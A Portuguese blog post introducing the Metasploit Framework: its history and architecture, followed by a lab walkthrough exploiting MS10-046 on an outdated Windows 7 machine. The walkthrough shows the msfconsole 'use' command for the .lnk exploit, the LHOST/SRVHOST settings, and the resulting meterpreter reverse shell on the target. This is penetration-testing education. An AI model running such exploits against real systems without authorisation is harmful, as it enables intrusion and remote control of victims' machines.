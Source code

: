 ```yaml
---
layout: post
title: "Conheça o Metasploit Framework"
description: "Teste a segurança de suas aplicações, conheça o Metasploit Framework!"
category: security
keywords: security, hacking, metasploit, pentest, exploit, segurança, invasão
---
```


### Introdução

O [Metasploit](http://www.metasploit.com/) é um projeto open source criado
por [HD Moore](https://twitter.com/hdmoore) com o objetivo de fornecer um ambiente adequado para o
desenvolvimento, testes de segurança e exploração de vulnerabilidades de
software.

O projeto nasceu em 2003 com o objetivo de fornecer informações úteis sobre a
realização de testes de invasão e compartilhar algumas ferramentas. O primeiro
release foi lançado oficialmente apenas em 2004 e contava com alguns exploits
escritos em C, Perl e Assembly.

Quando a versão 3.x foi lançada em 2007 o framework foi quase que totalmente
reescrito em [Ruby](https://www.ruby-lang.org/en/), isso facilitou bastante
a criação de novos exploits e atraiu novos desenvolvedores para o projeto.

Em 2009 a [Rapid7](http://www.rapid7.com/) compra o Metasploit e um ano depois
lança a versão comercial do projeto o [Metasploit Pro](http://metasploit.pro).

### Arquitetura e Funcionalidades

![Arquitetura do metasploit](/images/msf-arquitetura.png)

O **REX(Ruby Extension Library)** é o núcleo do Metasploit, ele disponibiliza
a API com funcionalidades que ajudam no desenvolvimento de um exploit, além de
bibliotecas, sockets e protocolos.

O **CORE** do framework é constituído de sub-sistemas que controlam sessões,
módulos, eventos é a API base.

O **BASE** fornece uma API amigável e simplifica a comunicação com outros
módulos, interfaces e plugins.

Na camada **MODULES** é onde reside os exploits e payloads, basicamente
os exploits são programas escritos para explorar alguma falha e o payload
é como um complemento para o exploit. Basicamente o payload é o código que
vai ser injetado no alvo, ao ser injetado alguma ação pré-definida será
executada, por exemplo: (realizar um download, executar um arquivo, apagar
alguma informação ou estabelecer uma conexão com outro sistema).

A camada de **INTERFACES** conta com o modo **console** onde temos um shell poderoso
que trabalha em conjunto com o SO, o **cli** que fornece uma interface onde
é possível automatizar testes de invasão e ainda temos interfaces **web** e **gui**.

### Um exemplo prático de uso

Vamos à prática e ver um pouco do que é possível fazer com o Metasploit.
Para este exemplo usei como alvo uma máquina com Windows 7 (desatualizada)
e explorei uma falha que permite a execução de código remoto no SO.

Metasploit em ação:

![Metasploit msfconsole](/images/msf-console.png)

O exploit usado explora uma vulnerabilidade na manipulação de arquivos do
Windows na criação de um atalho (arquivos .lnk), durante este ataque o metasploit
cria um serviço e espera o alvo acessar a URL para injetar um DLL malicioso no sistema.

No console do metasploit informo o exploit que irei usar com o comando `use`:

```bash
msf > use exploit/windows/browser/ms10_046_shortcut_icon_dllloader
msf exploit(ms10_046_shortcut_icon_dllloader) >
```

Em seguida listo as opções oferecidas para a execução do exploit:

![show options](/images/msf-options.png)

Executando o comando `show payloads` o framework irá listar todos os módulos
de payload suportados pelo exploit escolhido, no teste usei o `meterpreter`.

O Meterpreter é dos payloads mais poderosos do Metasploit, ele tenta ficar
invisível ao sistema alvo durante um ataque, ou seja ele utiliza recursos para
não ser pego por firewalls ou **IDS(Intrusion Detection System)**.

Após escolher o `payload` listamos as opções novamente para ver mais recursos,
dessa vez sobre o payload escolhido:

![show options payload](/images/msf-payload-options.png)

Agora só precisamos setar os parâmetros nas opções de uso do exploit, no caso
apenas 2 são obrigatórias o `LHOST` e o `SRVHOST`.

As opções `SRVHOST` e `LHOST` recebem como argumento o ip do host atacante,
sendo a `SRVHOST` parâmetro para o exploit e `LHOST` parâmetro para o payload.

![msf set options](/images/msf-set-options.png)

Após as configurações feitas, executamos o exploit:

![msf run exploit](/images/msf-run-exploit.png)

O metasploit executa um web server nesse momento e aguarda em background que o
alvo acesse a URL "infectada" para injetar o payload e criar uma conexão reversa
com o atacante.

Enquanto o metasploit fica aguardando, o alvo acessou a URL http://192.168.25.10:

![msf ataque](/images/msf-ataque.png)

O alerta de segurança no alvo solicita permissão para abrir o conteúdo que
está sendo disponibilizado pelo metasploit, no exemplo um usuário sem atenção
clicou em `Permitir`, enquanto isso no console do metasploit o ataque é efetivado
e cada etapa é informada:

![msf exploiting](/images/msf-exploit.png)

Por fim a conexão reversa é estabelecida ou seja o alvo conectou-se ao atacante,
uma sessão do `meterpreter` é aberta e agora podemos entrar no **MS-DOS** do alvo:

```bash
meterpreter >
meterpreter > shell
Process 3180 created.
Channel 1 created.
Microsoft Windows [versão 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. Todos os direitos reservados.

C:\Windows\system32>

C:\>dir
dir
 O volume na unidade C não tem nome.
 O Número de Série do Volume e 5499-BEB2

 Pasta de C:\

10/06/2009  18:42                24 autoexec.bat
10/06/2009  18:42                10 config.sys
13/07/2009  23:37    <DIR>          PerfLogs
23/10/2013  20:07    <DIR>          Program Files
18/11/2012  19:16    <DIR>          Users
17/05/2013  20:21    <DIR>          Windows
               2 arquivo(s)             34 bytes
               4 pasta(s)      996.515.840 bytes disponíveis

C:\>
```

Simplesmente agora temos acesso total a máquina!

### Finalizando

O **Metasploit** é uma ferramenta super poderosa e com muitas opções e recursos
para serem explorados, o framework ainda oferece opções para explorar falhas em:
aplicações web, mobile, firmwares, etc.

Existe uma documentação em forma de tutorial muito completa sobre o metasploit:
[Aqui!](http://www.offensive-security.com/metasploit-unleashed/Main_Page)

Acompanhe o projeto no Github: [rapid7/metasploit](https://github.com/rapid7/metasploit-framework)

Para mais detalhes sobre a falha explorada no exemplo do post:

* [Microsoft Security Advisory 2286198](http://technet.microsoft.com/en-us/security/advisory/2286198)
* [MSB-MS10-046](http://technet.microsoft.com/en-us/security/bulletin/MS10-046)
* [CVE-2010-2568](http://cvedetails.com/cve/2010-2568)

Esse conteúdo será visto no curso:
[Começando com testes de invasão](http://infoslack.com/security/curso-comecando-com-testes-de-invasao/)
com mais detalhes!

=)
